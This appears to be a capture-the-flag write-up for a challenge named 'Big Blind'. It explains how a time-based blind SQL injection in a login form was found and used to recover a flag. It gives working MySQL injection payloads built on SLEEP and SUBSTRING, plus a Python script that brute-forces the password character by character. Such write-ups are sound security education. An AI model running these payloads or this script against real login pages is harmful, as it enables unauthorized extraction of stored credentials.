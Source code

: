 # Challenge Name: Big Blind

## Detailed Solution

- we are given a login page in this challenge
- the page source does not contain any JS
- After trying several things I found that we get status 500 on using `'` in either username or password field
- we don’t get an error if we use `'` in both fields
- A better test is to use the following :

```
user : ''
pass : '
```

- in the above case we get an error which shows that its due to an un-closed `'`
- we don’t get an error in the following case :

```
user : ''
pass : ''
```

- finally I confirmed that its blind SQL injection by using the following payload :

```
' or sleep(2) and 1=1#
```

- so here it was clear that its MySQL because syntax for others are different
- I used `SUBSTRING` and `SLEEP` to bruteforce the flag one character at a time
- payload :

```
' OR IF(SUBSTRING(pass,1,1)='f',sleep(5),sleep(0))#
```

- Explanation :
    - substring function requires three arguments
    - first argument is the string which we want to check
    - second argument is the position which we want to check
    - third argument is the length we want to check
    - to check one character at a time I incremented second argument each time and kept third argument fixed
- Usage of `IF` :
    - If uses three arguments
    - first is the condition
    - second is action if condition is `True`
    - third is action if condition is `False`
    - so when we find a match we will see a sleep of 5 seconds else page will load immediately
- Automation :

```python
from requests import post, ReadTimeout

url = 'https://big-blind.hsc.tf/'
charset = '_{}flagisodnbcehjkmpqrtuvwxyz'
flag = ''
counter = 0

while flag.endswith('}') != True:
    counter += 1
    for char in charset:
        payload = {
            'user': 'twh',
            'pass': f"' OR IF(SUBSTRING(pass,{counter},1)='{char}',sleep(5),sleep(0))#"
        }
        try:
            r = post(url, data=payload, timeout=3)
        except ReadTimeout:
            flag += char
            print(f'FLAG : {flag}')
            break
```

- output :

![](https://i.imgur.com/115mp0c.png)
